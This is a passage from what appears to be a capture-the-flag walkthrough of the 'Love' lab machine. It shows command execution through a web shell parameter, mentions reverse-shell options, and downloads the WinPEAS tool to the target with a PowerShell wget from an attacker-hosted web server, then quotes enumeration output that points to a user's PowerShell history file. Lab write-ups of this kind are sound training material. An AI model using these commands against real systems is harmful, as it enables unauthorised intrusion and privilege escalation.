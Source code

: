 ![](/img/image-20210721151626831.png)

Adding `?cmd=whoami` to the end shows I have execution:

![](/img/image-20210721151651843.png)

To get a shell from here, I could use a PHP reverse shell, or upload
`nc.exe` or a [Nishang](https://github.com/samratashok/nishang)
PowerShell shell.

## Shell as SYSTEM

### Enumeration

After looking around the filesystem a bit manually, I opted to run
[WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS).
After cloning the repo to my VM, I went into the directory with
`winPEAS.exe` and started a Python web server
(`python3 -m http.server 80`).

From Love, I'll use `PowerShell` to upload the file:



    C:\ProgramData>powershell wget http://10.10.14.6/winPEAS.exe -outfile wp.exe



There's a hit on the webserver, and the file is present. Now I'll run it
with `.\wp.exe`. There's a ton of output, so I'll just highlight the
interesting parts.

It finds a PowerShell history file:



      [+] PowerShell Settings
        PowerShell v2 Version: 2.0
        PowerShell v5 Version: 5.1.19041.1
        Transcription Settings:
        Module Logging Settings:
        Scriptblock Logging Settings:
        PS history file: C:\Users\Phoebe\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt                             
        PS history size: 51B  
